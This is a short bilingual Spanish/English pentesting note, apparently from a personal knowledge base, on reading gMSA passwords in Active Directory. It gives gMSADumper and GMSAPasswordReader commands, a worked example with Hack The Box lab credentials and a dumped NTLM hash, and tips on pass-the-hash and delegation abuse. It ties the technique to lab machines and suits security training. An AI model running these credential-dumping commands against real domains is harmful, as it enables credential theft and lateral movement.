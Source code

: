 ## DESCRIPTION

Group Managed Service Accounts Overview (GMSA) es cuenta de servicio administrada independiente (sMSA) es una cuenta de dominio administrada que proporciona administración automática de contraseñas, administración simplificada de nombres de entidad de seguridad de servicio (SPN) y la capacidad de delegar la administración a otros administradores.

The attacker can then read the gMSA (group managed service accounts) password of the account if those requirements are met.

Podemos comprobar que somos una cuenta de GSMA con Bloodhound.
![[Pasted image 20230303201759.png]]

#### Mas información
* https://www.thehacker.recipes/ad/movement/dacl/readgmsapassword


## EXPLOITATION

### OPTION 1: LINUX

1. Descargamos la herramienta gMSADumper: https://github.com/micahvandeusen/gMSADumper

2. Ejecutamos la herramienta

```
python3 gMSADumper.py -u <<USER>> -p <<PASSWORD>> -l <<MAQUINA>> -d <<DOMAIN>>

#Ejemplo
 python3 gMSADumper.py -u ted.graves -p Mr.Teddy -l intelligence.htb -d intelligence.htb
```

3. Obtenemos los hashes del usuario sobre el que tenegamos el privilegio.

![[Pasted image 20230303202023.png]]

Obtenemos el hash → svc_int$:::664d14e5f79b09a4a8e39ea52a450cd6


SI TENEMOS ADEMAS EL PRIVILEGIO DE ALOW TO DELEGATE → BINGO → PODEMOS CONSTRUIR UN TICKET IMPERSONANDO A ALGUN USUARIO

### OPTION 2: DESDE WINDOWS


PROCEDIMIENTO:  https://www.thehacker.recipes/ad/movement/dacl/readgmsapassword

![[Pasted image 20230303201120.png]]

OPCION 2 USANDO GMSAPASSWORD READER

Descargar el binario desde aqui: https://github.com/expl0itabl3/Toolies

```
.\GMSAPasswordReader.exe --AccountName 'svc_apache$'
```

![[Pasted image 20230627162621.png]]

#### Nota importante
El rc4_hmac es igual que el hash NTLM -> Ejecución directa

![[Pasted image 20230627162921.png]]

## MACHINES

* Hack The Box: Intelligence
* PG: Heist